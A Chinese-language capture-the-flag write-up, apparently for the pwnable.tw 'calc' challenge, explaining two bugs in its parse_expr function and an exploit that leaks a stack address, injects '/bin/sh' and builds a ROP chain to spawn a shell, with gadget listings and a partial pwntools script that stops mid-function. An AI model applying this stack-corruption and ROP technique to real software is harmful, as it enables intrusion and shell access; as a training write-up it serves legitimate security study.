 ## 漏洞

### 发现

经过上面的分析，`parse_expr` 这个函数我主要发现了两个漏洞：

1. 程序在排除被除数不为 0 的条件时，用的判断是被除数字符串不等于 `"0"`；对于这个漏洞，我们可以通过输入 `"00"` 等方式让程序产生除零操作。但是并不知道这个漏洞如何利用；
2. 程序在执行 `eval` 时，必须要满足数字栈中存在大于两个的数字，但是以下原因会导致这个条件并不成立：
   1. 输入字符串的第一个字符为操作符；
   2. 某次的输入数字为 0，这个数字则不会被程序压栈；

下面我们尝试利用第二条的第一个漏洞，就可以改变数字栈的高度，从而达到修改任意地址的目的。

### 利用

我们利用的基本思路是：先泄露栈地址，然后注入字符串 `/bin/sh`，最后构造一个这样的栈：

```
stack-top	|ad1	|0xb	|ad2	|0x0	|adstr	|ad3	|0x0	|ad4
```

其中 `ad1`、`ad2`、`ad3`、`ad4` 是三个通过 `ROP` 技术的到的三个地址，它们分别执行：

```assembly
ad1:	pop %eax; ret;
ad2:	pop %ecx; pop %ebx; ret;
ad3:	pop %edx; ret;
ad4:	int 80h;
```

而其中的 `adstr` 则是之前注入的 `/bin/sh` 的地址。构造了如下的 `exp`：

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *

class Challenge:
    def __init__(self, local=True):
        self.local = local
        if local:
            self.p = process(['./calc'])
        else:
            self.p = remote("chall.pwnable.tw", 10100)

    def gdb(self):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0], gdbscript="b *get_expr")

    def leak_ebp(self):
        """
        payload: *361
        """
        offset = 0x5a0 / 4 + 1
        self.payload = "*%d\n" % (offset)
        self.p.send(self.payload)

        self.main_ebp = int(self.p.recvline(), 10) & 0xffffffff
        self.calc_ebp = self.main_ebp - 0x20
        self.parse_expr_ebp = self.calc_ebp - 0x5c0
        print("main $ebp:" + hex(self.main_ebp))
        print("calc $ebp:" + hex(self.calc_ebp))
        print("parse_ebp $ebp:" + hex(self.parse_expr_ebp))

    def write_binsh(self):
        """
```